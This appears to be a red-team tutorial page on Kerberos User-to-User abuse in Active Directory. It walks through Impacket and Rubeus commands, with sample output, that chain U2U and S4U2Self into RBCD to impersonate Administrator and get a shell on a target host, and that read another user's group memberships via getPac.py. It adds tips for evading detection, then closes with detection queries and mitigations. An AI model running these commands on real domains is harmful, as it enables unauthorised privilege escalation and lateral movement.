


## What Is User-to-User Authentication Abuse?

**U2U** (User-to-User authentication) is a Kerberos mechanism defined in [RFC 4120 §3.7](https://www.rfc-editor.org/rfc/rfc4120) for peer-to-peer authentication scenarios where the service being contacted does not have a static long-term key — no keytab (a file containing pre-shared Kerberos secret keys for a service), no NT hash registered in Active Directory, no [SPN](/docs/kerberos/kerberoast/) (Service Principal Name — a unique identifier registered in AD that maps a service to an account, e.g. `HOST/ATTACKPC.radiant.local`). Instead of encrypting the [service ticket](/docs/kerberos/tickets/) with a static service key, the KDC (Key Distribution Center — the Kerberos authentication server, running on every domain controller) encrypts it using the **session key** from the service's own TGT (Ticket-Granting Ticket — a special Kerberos credential issued at login that proves identity to the KDC, allowing further service ticket requests without re-entering a password). The session key is ephemeral — it exists only for the lifetime of that TGT.

Microsoft designed U2U for scenarios like two user-context processes authenticating directly over a network, or a service running under a user account that has no registered SPN. In those cases normal TGS (Ticket-Granting Service — the KDC component that issues service tickets) requests fail: the KDC cannot encrypt a service ticket if it has no key for the account. U2U is the solution.

Attackers care about U2U for two distinct reasons:

1. **RBCD without an SPN.** [Resource-Based Constrained Delegation](/docs/kerberos/delegation/rbcd/) (RBCD — a delegation model introduced in Windows Server 2012 where the *target* resource controls who can delegate to it, rather than a central admin) requires [S4U2Self](/docs/kerberos/delegation/s4u2self-abuse/) (Service-for-User-to-Self — a Kerberos extension that lets an account request a service ticket impersonating any domain user, to itself) to generate an impersonation ticket. S4U2Self in turn requires the requesting account to have a registered SPN. If you only have a TGT for a user account or a freshly-created machine account with no SPN, normal S4U2Self fails. The U2U flag (`ENC-TKT-IN-SKEY` — the Kerberos flag that tells the KDC to encrypt the service ticket with the additional ticket's session key instead of the account's long-term key) makes the KDC accept the account's own TGT as the key material, bypassing the SPN requirement entirely.

2. **Silent PAC enumeration.** A PAC (Privilege Attribute Certificate — a Microsoft extension embedded inside Kerberos tickets that carries the user's group memberships, SID, and authorization data) is embedded in every ticket. U2U allows requesting a ticket for another user and extracting their full PAC — including all group memberships — without needing Domain Admin access. This is how `getPac.py` works.

## How Does User-to-User Abuse Work?

### Normal TGS Exchange

In a standard service ticket request, the client asks the KDC for a ticket to a known service. The KDC looks up the service's long-term key (its NT hash or AES key) and uses that to encrypt the resulting ticket. The client hands the encrypted ticket to the service; the service decrypts it with its own key and reads the client's identity.



### U2U Exchange

When the target account has no long-term key, the client uses U2U. The client first obtains the service account's current TGT (via a **KRB_TGT_REQ** — an informal term for requesting the service's TGT, typically by asking the service directly or via the KDC's additional-ticket mechanism). The client then includes that TGT as an **additional ticket** in its TGS-REQ and sets the `ENC-TKT-IN-SKEY` flag. The KDC reads the session key from the additional TGT and uses *that* to encrypt the resulting service ticket — no long-term key needed.



The critical difference from a normal TGS exchange: the resulting ticket is encrypted with the service account's **current TGT session key** — not its NT hash or AES key. That session key is ephemeral. It changes with every new TGT (every ~10 hours by default). If the TGT expires or is renewed, the session key changes and any previously issued U2U tickets become unreadable.

### U2U + S4U2Self: Why This Unlocks RBCD

When `getST.py` is called with `-u2u`, it requests a U2U-style ticket using the account's own TGT as the additional ticket. The KDC is satisfied: it uses the TGT session key as the encryption key and doesn't require a registered SPN. The resulting ticket is an S4U2Self impersonation ticket — encrypted with the attacker account's own TGT session key — and it can be fed directly into an S4U2Proxy RBCD chain.

## What Does User-to-User Abuse Require?

- **A TGT for any domain account** — user account, machine account (`ATTACKPC$`), or service account. No SPN required for U2U. The account just needs a valid TGT.
- **The account's credentials** — plaintext password or NT hash, to authenticate and obtain the TGT. Or an already-obtained `.ccache` file containing the TGT.
- **RBCD configured on the target** (for the U2U + S4U2Self → RBCD attack path) — the attacker's account (`ATTACKPC$`) must appear in the target machine's `msDS-AllowedToActOnBehalfOfOtherIdentity` attribute. This requires write access to that attribute, which typically comes from one of: GenericWrite / GenericAll on the computer object, or a delegation misconfiguration. Full RBCD setup is covered in `rbcd.md`.
- **Network access to the DC** — all TGT and TGS requests go to the KDC on port 88 (TCP/UDP).
- **Kerberos tools installed** — Linux: Impacket via `pipx install impacket`; Windows: Rubeus binary in a writable path. Results are stored in `.ccache` files (credential cache — the Linux/Unix file format for storing Kerberos tickets, read by all MIT Kerberos tools and Impacket automatically via `KRB5CCNAME`).

| Condition | U2U Works? | Notes |
|---|---|---|
| Account has TGT, no SPN | Yes | Core U2U use case |
| Account has TGT and SPN | Yes | SPN not needed, doesn't hurt |
| Account has no TGT (expired/none) | No | U2U requires a valid TGT to supply as additional ticket |
| Target account in Protected Users group | Partial | U2U ticket issuance works; impersonating Protected Users members via S4U2Self is blocked by KDC |
| Domain functional level below Windows Server 2008 R2 | No | U2U + S4U2Self combination requires modern KDC |

## U2U + S4U2Self (RBCD Without SPN)

This is the primary attack path. The attacker controls `ATTACKPC$` — a machine account created in the domain (domain users can create up to 10 machine accounts by default via `ms-DS-MachineAccountQuota`) — but hasn't registered an SPN on it. RBCD has already been configured on the target (`ws01.radiant.local`) to trust `ATTACKPC$`. Normal `getST.py` with just `-impersonate` would fail at S4U2Self because `ATTACKPC$` has no SPN. The `-u2u` flag resolves this.


  
**Step 1 — Obtain a TGT for the attacker machine account.**

The `\` at the end of each line is bash's line continuation character — it tells the shell the command continues on the next line. The whole block runs as a single command.

```bash
getTGT.py radiant.local/'ATTACKPC$':'AttackPass1!' \
  -dc-ip 192.168.56.10
```

The flags:
- `radiant.local/'ATTACKPC$':'AttackPass1!'` — the account and plaintext password; the `$` suffix is the AD convention for machine accounts; use single quotes around the `$` to prevent bash from interpreting it as a variable
- `-dc-ip` — IP address of the domain controller acting as KDC

```
Impacket v0.12.0 - Copyright Fortra, LLC

[*] Saving ticket in ATTACKPC$.ccache
```

**Step 2 — Use U2U + S4U2Self to generate an impersonation ticket.**

`KRB5CCNAME` is the environment variable that tells the Kerberos libraries which credential cache file to use. Impacket reads it automatically — setting it inline before the command applies it only to that one invocation.

```bash
KRB5CCNAME=ATTACKPC\$.ccache getST.py \
  -u2u \
  -impersonate Administrator \
  -spn 'cifs/ws01.radiant.local' \
  -dc-ip 192.168.56.10 \
  radiant.local/'ATTACKPC$':'AttackPass1!'
```

The flags:
- `KRB5CCNAME=ATTACKPC\$.ccache` — points Impacket at the TGT obtained in Step 1; the `\$` escapes the dollar sign in bash (prevents shell expansion); this TGT is used both as authentication credential and as the U2U additional ticket
- `-u2u` — enables User-to-User mode; sets the `ENC-TKT-IN-SKEY` flag in the TGS-REQ and includes the account's own TGT as the additional ticket; bypasses the KDC's SPN requirement for S4U2Self
- `-impersonate` — the privileged domain user to impersonate in the resulting S4U2Self ticket
- `-spn` — the target SPN for the S4U2Proxy step; `cifs/ws01.radiant.local` requests a CIFS (Common Internet File System — the protocol underlying Windows SMB file shares) ticket to `ws01`; RBCD on `ws01` must list `ATTACKPC$` in its `msDS-AllowedToActOnBehalfOfOtherIdentity` attribute
- `-dc-ip` — IP of the domain controller
- `radiant.local/'ATTACKPC$':'AttackPass1!'` — account credentials used to authenticate the TGS-REQ

```
Impacket v0.12.0 - Copyright Fortra, LLC

[*] Getting TGT for user
[*] Impersonating Administrator
[*]     Requesting S4U2self
[*]     Requesting S4U2Proxy
[*] Saving ticket in Administrator@cifs_ws01.radiant.local@RADIANT.LOCAL.ccache
```

**Step 3 — Use the ticket.**

```bash
KRB5CCNAME=Administrator@cifs_ws01.radiant.local@RADIANT.LOCAL.ccache \
  wmiexec.py -k -no-pass administrator@ws01.radiant.local
```

The flags:
- `KRB5CCNAME=...` — points Impacket at the impersonation ticket from Step 2
- `-k` — use Kerberos authentication; reads the ticket from the file named in `KRB5CCNAME`
- `-no-pass` — do not prompt for a password; authentication is entirely handled by the Kerberos ticket
- `administrator@ws01.radiant.local` — the impersonated user and target host

```
Impacket v0.12.0 - Copyright Fortra, LLC

[*] SMBv3.0 dialect used
[!] Launching semi-interactive shell - Careful what you execute
[!] Press help for extra shell commands
C:\>whoami
radiant\administrator

C:\>hostname
ws01
```
  
  
On Windows, Rubeus handles U2U via its `u2u` action combined with `s4u`. The backtick `` ` `` at the end of each line is PowerShell's line continuation character — the whole block runs as one command.

**Step 1 — Get a TGT for the attacker account.**

```powershell
.\Rubeus.exe asktgt `
  /user:ATTACKPC$ `
  /password:AttackPass1! `
  /domain:radiant.local `
  /dc:dc01.radiant.local `
  /nowrap
```

The flags:
- `/user` — the machine account to request a TGT for; the `$` suffix denotes a machine account
- `/password` — plaintext password for the account; use `/rc4:<NThash>` or `/aes256:<AES256key>` to authenticate with a hash instead (preferred — passing hashes avoids plaintext credentials in command history)
- `/domain` — the fully qualified domain name
- `/dc` — the domain controller to send the AS-REQ to
- `/nowrap` — prints the base64 ticket without line breaks; easier to copy and paste into subsequent commands

``` {linenos=table}
[*] Action: Ask TGT

[*] Using rc4_hmac hash: <hash>
[*] Building AS-REQ (w/ preauth) for: 'radiant.local\ATTACKPC$'
[+] TGT request successful!
[*] base64(ticket.kirbi):
      doIFpDCCBaC...

  ServiceName              :  krbtgt/RADIANT.LOCAL
  UserName                 :  ATTACKPC$
  UserRealm                :  RADIANT.LOCAL
  StartTime                :  3/12/2026 10:00:00 AM
  EndTime                  :  3/12/2026 8:00:00 PM
  Flags                    :  name_canonicalize, pre_authent, renewable, forwardable
```

Copy the base64 ticket string — you'll supply it to the next command.

**Step 2 — U2U S4U2Self + S4U2Proxy via RBCD.**

```powershell
.\Rubeus.exe s4u `
  /user:ATTACKPC$ `
  /rc4:<NT hash of ATTACKPC$> `
  /impersonateuser:Administrator `
  /msdsspn:cifs/ws01.radiant.local `
  /u2u `
  /ticket:<base64 TGT from Step 1> `
  /domain:radiant.local `
  /dc:dc01.radiant.local `
  /ptt
```

The flags:
- `/user` — the account performing S4U2Self
- `/rc4` — NT hash of `ATTACKPC$`; used to authenticate the TGS-REQ; use `/aes256` for cleaner traffic (RC4 on a modern AES-capable domain is anomalous and detectable)
- `/impersonateuser` — the privileged user to impersonate throughout the S4U2Self + RBCD S4U2Proxy chain
- `/msdsspn` — the target SPN for S4U2Proxy; RBCD on `ws01` must list `ATTACKPC$` as a trusted account
- `/u2u` — enables User-to-User mode; sends the `ENC-TKT-IN-SKEY` flag and includes the account's TGT as the additional ticket; allows S4U2Self to proceed without a registered SPN
- `/ticket` — the base64 TGT from Step 1; Rubeus uses this both as evidence of the account's identity and as the U2U additional ticket for key material
- `/domain` — fully qualified domain name
- `/dc` — domain controller for all KDC requests
- `/ptt` — [Pass-the-Ticket](/docs/kerberos/ticket-attacks/pass-the-ticket/): inject the final S4U2Proxy ticket directly into the current Windows logon session

```
[*] Action: S4U

[*] Using a TGT /ticket supplied for U2U
[*] Performing S4U2self (U2U)...
[+] S4U2self (U2U) success!
[*] Performing S4U2Proxy...
[+] S4U2Proxy success!
[*] Ticket successfully imported!
```

**Step 3 — Verify and access the target.**

```powershell
klist
```

```
#0>     Client: Administrator @ RADIANT.LOCAL
        Server: cifs/ws01.radiant.local @ RADIANT.LOCAL
        KerbTicket Encryption Type: AES-256-CTS-HMAC-SHA1-96
        Ticket Flags 0x40a10000 -> forwardable renewable pre_authent
        Start Time: 3/12/2026 10:00:00 (local)
        End Time:   3/12/2026 20:00:00 (local)
```

```powershell
# C$ is the hidden Windows administrative share exposing the entire C: drive —
# automatically created on every Windows machine, accessible only to administrators
dir \\ws01.radiant.local\C$
```

```
 Volume in drive \\ws01\C$ is OS
 Volume Serial Number is ABCD-1234

 Directory of \\ws01.radiant.local\C$

03/12/2026  10:00    <DIR>          PerfLogs
03/12/2026  10:00    <DIR>          Program Files
03/12/2026  10:00    <DIR>          Program Files (x86)
03/12/2026  10:00    <DIR>          Users
03/12/2026  10:00    <DIR>          Windows
```
  


## PAC Enumeration via U2U

The **PAC** (Privilege Attribute Certificate — a Microsoft-specific extension embedded in every Kerberos ticket that carries the user's SID, all group SIDs, logon information, and authorization data) is normally only visible to the KDC and to services that perform PAC validation. But because U2U allows requesting a service ticket *for* any user, an attacker with any valid domain credentials can request a U2U ticket addressed to themselves on behalf of a target user and read the PAC out of the resulting ticket. No elevated permissions required — just a valid TGT.

This is useful for silent group membership enumeration: determining whether a target account is a Domain Admin, in Protected Users, or in any other sensitive group without making LDAP queries that might trigger monitoring.


  
Impacket's `getPac.py` automates the entire U2U PAC request flow. It requests a TGT for the caller, performs a U2U TGS-REQ on behalf of the target user, and parses the resulting PAC.

```bash
getPac.py \
  -targetUser Administrator \
  radiant.local/jdoe:'Password123!' \
  -dc-ip 192.168.56.10
```

The flags:
- `-targetUser` — the account whose PAC to extract; does not need to be the authenticated user; any domain account can be targeted
- `radiant.local/jdoe:'Password123!'` — credentials for the account making the U2U request; this account needs only basic domain user privileges
- `-dc-ip` — IP of the domain controller

``` {linenos=table}
Impacket v0.12.0 - Copyright Fortra, LLC

[*] Getting TGT for user
[*] Calling U2U for target Administrator
[*] PAC retrieved

AccountName: Administrator
FullName: Built-in account for administering the computer/domain
LogonTime: 2026-03-12 09:00:00 UTC
LogoffTime: <never>
LogonCount: 412
UserSID: S-1-5-21-3847823497-2741234567-1892345678-500
GroupCount: 5
GroupMembership:
    513 -> Domain Users
    512 -> Domain Admins
    519 -> Enterprise Admins
    520 -> Group Policy Creator Owners
    572 -> Denied RODC Password Replication Group

ExtraSids:
    S-1-18-1 (Authentication Authority Asserted Identity)
```

The PAC output shows every group membership by RID (Relative Identifier — the numeric portion of a Windows SID that identifies an object within a domain, e.g. `512` = Domain Admins, `513` = Domain Users, `519` = Enterprise Admins). This tells an attacker exactly which accounts to target or which accounts to avoid (Protected Users members will not be listed since they block delegation, but their RIDs would still appear in their own PAC if read directly).

For just group membership info without the full PAC dump, you can also read it from a `.ccache` file using `describeTicket.py` if you already have a ticket for the target user.
  
  
Rubeus can perform a U2U request and display the resulting ticket — including PAC content — using the `u2u` action.

```powershell
.\Rubeus.exe u2u `
  /ticket:<base64 TGT of target user> `
  /targetuser:Administrator `
  /domain:radiant.local `
  /dc:dc01.radiant.local `
  /ptt
```

The flags:
- `/ticket` — a base64-encoded TGT; Rubeus uses this as the additional ticket in the U2U TGS-REQ; this can be your own TGT (to request a U2U ticket that impersonates yourself) or a TGT you've captured for another account
- `/targetuser` — the user whose PAC to embed in the resulting ticket
- `/domain` — the fully qualified domain name
- `/dc` — the domain controller to target for the KDC request
- `/ptt` — inject the resulting ticket into the current session; from there you can inspect it with `klist` or export it with `Rubeus.exe dump`

``` {linenos=table}
[*] Action: User-to-User

[*] Building U2U TGS-REQ for ATTACKPC$
[+] U2U request successful!
[*] base64(ticket.kirbi):
      doIFpDCCBaC...

  ServiceName              :  ATTACKPC$@RADIANT.LOCAL
  UserName                 :  Administrator
  UserRealm                :  RADIANT.LOCAL
  StartTime                :  3/12/2026 10:00:00 AM
  EndTime                  :  3/12/2026 8:00:00 PM
  Flags                    :  name_canonicalize, enc_pa_rep, renewable
```

Note the absence of `forwardable` in the Flags line — U2U tickets are non-forwardable by design. The ticket is usable for reading the PAC; it is not usable in an S4U2Proxy chain on its own.

To parse the full PAC from the injected ticket:

```powershell
.\Rubeus.exe describe /ticket:<base64 of the U2U ticket>
```

``` {linenos=table}
[*] Action: Describe Ticket

  ServiceName              :  ATTACKPC$@RADIANT.LOCAL
  UserName                 :  Administrator
  UserRealm                :  RADIANT.LOCAL
  StartTime                :  3/12/2026 10:00:00 AM
  EndTime                  :  3/12/2026 8:00:00 PM
  Flags                    :  name_canonicalize, enc_pa_rep, renewable
  KeyType                  :  aes256_cts_hmac_sha1

  [*] PAC:
    LogonTime              :  3/12/2026 09:00:00 AM
    UserSID                :  S-1-5-21-3847823497-2741234567-1892345678-500
    GroupCount             :  5
    Groups                 :  512, 513, 519, 520, 572
```
  


## Operational Notes

**The session key is ephemeral — U2U tickets have a hard dependency on the source TGT.**
A normal service ticket is encrypted with the service's long-term key, which doesn't change until the password is reset. A U2U ticket is encrypted with the service account's *current TGT session key*. When that TGT expires (default: 10 hours) or the account requests a new TGT, the session key changes. Any U2U ticket obtained before that rotation becomes unreadable to the service — the service can no longer decrypt it. This means U2U tickets do not survive the TGT lifetime. Plan operations within the TGT window and re-run if the TGT has been renewed.

**When `-u2u` is needed vs. when it isn't.**
If the attacker account already has a registered SPN, standard S4U2Self works without `-u2u`. The `-u2u` flag is specifically for accounts with no SPN — user accounts, freshly created machine accounts before SPN registration, or accounts where SPN registration is blocked by ACL. If you're unsure whether your account has an SPN, check:
```bash
getST.py radiant.local/'ATTACKPC$':'AttackPass1!' \
  -spn 'test/test' \
  -impersonate jdoe \
  -self \
  -dc-ip 192.168.56.10
```
If it returns `KDC_ERR_PADATA_TYPE_NOSUPP`, the account has no SPN and you need `-u2u`.

**Ticket lifetime follows standard KDC policy.**
U2U tickets are KDC-issued and receive normal lifetime enforcement (10 hours default, 7-day renewable window by default). They are not extended by the U2U mechanism. The ticket expiry displayed in `klist` is authoritative.

**Nested U2U is not supported.**
The `ENC-TKT-IN-SKEY` flag cannot be set on a ticket that is itself a U2U ticket. You cannot chain U2U → U2U. The additional ticket supplied in a U2U TGS-REQ must be a standard TGT, not another U2U-derived ticket.

**AES vs RC4 encryption in U2U tickets.**
When `getST.py` authenticates with a plaintext password, it negotiates the strongest supported encryption. When using `-hashes :NThash` (format: colon prefix, empty LM field on the left, NT hash on the right), Impacket defaults to RC4-HMAC. On modern domains where RC4 is deprecated or disabled via group policy, supply the AES256 key with `-aesKey <hex>` to avoid triggering anomaly detection based on downgrade events. Rubeus `/aes256` applies similarly.

**`ATTACKPC$` vs. a user account — choosing your attacker identity.**
Both work with U2U. A newly-created machine account (`ATTACKPC$`) is preferable in RBCD chains because machine accounts are treated differently by some PAC validation paths. A regular user account works fine for PAC enumeration via `getPac.py`. The key requirement for either case is a valid, non-expired TGT.

**PAC enumeration via U2U is not read access to LDAP.**
`getPac.py` does not query LDAP. It uses a pure Kerberos exchange. This means it bypasses LDAP query logging (Event ID 1644 on DCs, if enabled) entirely. Group membership information is read from the Kerberos PAC, not from the directory. This gives the technique a notably low AD footprint compared to traditional enumeration.

## How Do You Detect and Defend Against User-to-User Abuse?

### What Logs Does User-to-User Abuse Generate?

- **Event ID 4769 (TGS-REQ) at the DC** — every U2U TGS request fires a 4769. The `Ticket Options` field will include the `ENC-TKT-IN-SKEY` bit (`0x04000000`). Standard service ticket requests do not set this bit. Filtering 4769 events for this bit value is the most reliable direct detection of U2U traffic.
- **Event ID 4769 with S4U2Self indicator** — when U2U is combined with S4U2Self (`getST.py -u2u -impersonate`), the 4769 event will show the impersonated account (`Administrator`) as the client while the requesting account (`ATTACKPC$`) appears in the transited services or requesting account fields. The combination of the `ENC-TKT-IN-SKEY` bit *and* a mismatched client/requesting account is a high-confidence U2U abuse indicator.
- **Event ID 4768 (AS-REQ — Authentication Service Request, the initial Kerberos login exchange that produces a TGT) — TGT issuance for machine accounts** — if the attacker creates `ATTACKPC$` and immediately requests a TGT and then fires U2U requests, the 4768 for a newly-created machine account followed quickly by 4769 with `ENC-TKT-IN-SKEY` is a sequenced indicator of the RBCD-without-SPN attack path.
- **Event ID 4741 — Computer Account Created** — if the attacker creates their machine account as part of the attack, this fires when `ATTACKPC$` is created. Combined with subsequent 4769 events bearing the `ENC-TKT-IN-SKEY` bit from the same account, it tells the story of the whole attack chain.

### What Logs Does User-to-User Abuse Not Generate?

- **`getPac.py` PAC enumeration is silent below the KDC.** The U2U request fires a 4769 at the DC, but there is no dedicated log for PAC extraction. The 4769 event alone looks like a routine service ticket request unless the `ENC-TKT-IN-SKEY` bit is specifically checked. No log fires on the target user's machine or the attacker's machine.
- **No log fires on the attacker's workstation** for the U2U TGS exchange. The Kerberos libraries handle everything on the wire. Endpoint telemetry will see the process invoking `getST.py` or `Rubeus.exe`, but no Windows Kerberos event fires locally for the outgoing TGS-REQ.
- **The SPN absence that necessitates U2U is not itself alarming.** Plenty of accounts legitimately have no SPN. Absence of SPN is not a log event. The anomaly only becomes visible when the SPN-less account fires a TGS-REQ with `ENC-TKT-IN-SKEY`.

### How Do You Mitigate User-to-User Abuse?

- **Set `ms-DS-MachineAccountQuota` to 0.** The default value of 10 lets every domain user create machine accounts and use them in RBCD chains with U2U. Setting this to 0 via:
  ```powershell
  Set-ADDomain -Identity radiant.local `
    -Replace @{"ms-DS-MachineAccountQuota"="0"}
  ```
  forces computer account creation to require `Domain Admins` or delegated permissions. This eliminates the self-service RBCD machine account path entirely.
- **Restrict `msDS-AllowedToActOnBehalfOfOtherIdentity` write access.** RBCD abuse (which U2U enables) requires writing to this attribute on a target computer object. Audit which accounts have `GenericWrite` or `GenericAll` on computer objects using BloodHound. Remove over-permissioned delegations.
- **Add privileged accounts to the Protected Users group.** Accounts in Protected Users cannot be impersonated via S4U2Self — the KDC rejects the request. This blocks the impersonation step of U2U + S4U2Self regardless of which account the attacker controls. `Administrator`, Domain Admins, and other tier-zero accounts should all be Protected Users members.
- **Audit newly created computer accounts.** Alert on 4741 events where the `Creator Subject` is not a standard provisioning account or IT system. Unauthorized computer account creation is a prerequisite for the most common U2U RBCD path.
- **Monitor for `ENC-TKT-IN-SKEY` in 4769 events.** Build a SIEM rule that fires on 4769 where the `Ticket Options` field includes the `ENC-TKT-IN-SKEY` bit. Legitimate U2U usage is rare in enterprise environments — most 4769 events bearing this bit in a corporate AD are worth investigating. This is the highest-signal single detection for U2U abuse.

### Detection Tools

- **Microsoft Defender for Identity (MDI)** — MDI parses Kerberos traffic at the network level (via port mirroring or the MDI sensor on DCs) and has awareness of atypical Kerberos flag combinations. U2U requests combined with S4U2Self for privileged accounts will surface in MDI's lateral movement path alerts and its "Suspicious Kerberos delegation" detection category.
- **Microsoft Sentinel** — Write a KQL query on `SecurityEvent` for Event ID 4769 filtering on the `ENC-TKT-IN-SKEY` bit in `TicketOptions`. Cross-correlate with 4741 events to catch the machine-account-creation → U2U sequence:
  ```kql
  SecurityEvent
  | where EventID == 4769
  | where TicketOptions has "0x04000000"
  | project TimeGenerated, Account, ServiceName, IpAddress, TicketOptions
  ```
- **Splunk** — Search `EventCode=4769` where `Ticket_Options` matches the `ENC-TKT-IN-SKEY` bitmask. Alert on any occurrence from accounts matching your naming convention for user accounts (not known service accounts with established U2U history). Enrich with `EventCode=4741` lookups to flag the machine-account-creation precursor.
- **Zeek (network-level)** — Zeek's Kerberos analyzer (`kerberos.log`) records TGS-REQ details including the `ENC-TKT-IN-SKEY` flag. Any entry in `kerberos.log` with `request_type == "TGS"` and the `ENC-TKT-IN-SKEY` bit in the `request_flags` field that cannot be attributed to a known application is a direct indicator. Zeek sees the wire regardless of whether DC event logging is fully enabled.
- **CrowdStrike / [EDR](/docs/redteam/defender-bypass/)** — Process-level telemetry for `getPac.py`, `getST.py -u2u`, and `Rubeus.exe u2u` invocations. Rubeus running from non-standard paths (`C:\Users\`, `C:\Temp\`) with the `u2u` or `s4u` action is a strong behavioral indicator. Parent process lineage matters: `cmd.exe` or `powershell.exe` spawning Rubeus from a user-writable directory is high-signal.

## References

### Specifications
- [RFC 4120 §3.7 — User-to-User Authentication Exchanges](https://www.rfc-editor.org/rfc/rfc4120)
- [MS-SFU — Kerberos Protocol Extensions: Service for User and Constrained Delegation](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-sfu/)

### Research
- Charlie Clark "U2U Abuse" — Semperis — analysis of the U2U + S4U2Self RBCD-without-SPN technique and its operational implications
- Elad Shamir — RBCD research — foundational work on Resource-Based [Constrained Delegation](/docs/kerberos/delegation/constrained-delegation/) abuse that U2U extends into no-SPN scenarios

### Tools
- [Impacket](https://github.com/fortra/impacket) — Python library and scripts (`getST.py` with `-u2u` and `-impersonate`, `getTGT.py`, `getPac.py`, `wmiexec.py`)
- [Rubeus](https://github.com/GhostPack/Rubeus) — C# Kerberos toolkit (`u2u` action, `s4u` with `/u2u`, `describe`, `asktgt`)
